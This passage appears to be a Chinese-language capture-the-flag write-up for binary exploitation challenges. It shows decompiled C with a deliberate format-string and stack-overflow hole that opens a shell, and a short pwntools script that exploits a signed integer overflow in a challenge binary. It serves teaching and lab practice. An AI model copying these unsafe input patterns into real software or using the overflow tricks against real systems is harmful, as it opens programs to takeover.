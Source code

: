 ```c
void out()
{
  char a[100]; // [esp+18h] [ebp-80h]
  int weak; // [esp+88h] [ebp-10h]
  int *p; // [esp+8Ch] [ebp-Ch]
  // a是 -80h, weak 是-10h, 覆盖需要 0x80-0x10
  // 再输入weak值 -- 1500,注意是%s， 数字转字符串

  weak = 0;
  p = &weak;
  printf("weak point : %p\n", &weak);
  __isoc99_scanf("%s", a);
  printf(a);
  if ( weak == 1500 )
  {
    puts("Congratulation!");
    system("/bin/sh");
  }
  printf("%i", weak);
}
```

### pwn3 int符号整数溢出问题
0x7FFFFF9C + 100 = 负最大 满足条件

满足3条件
1.x > 100
2.x <= 0x7FFFFF9C
3.x + 100 <= 198
1和3矛盾，找临界值 0x7FFFFF9C + 100 时为负最大。满足条件


```py
from pwn import *

file = './pwn3'
sh = process(file)
payload = 0x7FFFFF9C
sh.sendline(str(payload))
sh.interactive()
```

```c
int vuln()
{
  int v1; // [esp+Ch] [ebp-Ch]

  printf("请输入索引,确保索引大于100\n索引:");
  __isoc99_scanf("%d", &v1);
  if ( v1 <= 100 ) // 0x7FFFFF9C 大于100 过
  {
    puts("奥利给");
    exit(0);
  }
  if ( v1 > 0x7FFFFF9C ) // 0x7FFFFF9C 不大于 0x7FFFFF9C 过
  {
    puts("奥利给");
    exit(0);
  }
  printf("索引+100=%d\n", v1 + 100);
  if ( v1 + 100 > 198 ) // 0x7FFFFF9C 加100 = 负最大值 < 198 过
  {
    puts("索引+100值太大了,应该小于199");
    exit(0);
  }
```